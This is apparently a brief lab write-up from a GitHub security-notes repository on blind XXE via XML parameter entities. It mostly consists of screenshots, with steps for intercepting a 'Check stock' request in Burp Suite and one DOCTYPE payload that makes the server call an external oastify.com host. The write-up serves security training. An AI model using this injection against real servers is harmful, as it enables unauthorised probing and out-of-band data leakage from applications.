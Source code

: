 # Lab: Blind XXE with out-of-band interaction via XML parameter entities #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/0feda49c-9a01-4535-afea-219c9b84289f)

> Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/d35c9c8c-65ca-43b9-9dda-7b1e10bf006c)

> We have intercepted  the request and now we will add the payload
```
  <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://hwhuga0ncvjbjq8wgzqu9hozxq3hrbf0.oastify.com"> %xxe; ]>
```
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/e0187232-974a-451e-8e16-7f3d72ca7096)

> We got the secret `5c8c540z8s7zy0v2nbf7a1zjjgmgz`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ca74c294-22d9-4225-be88-71da6bb57fdf)
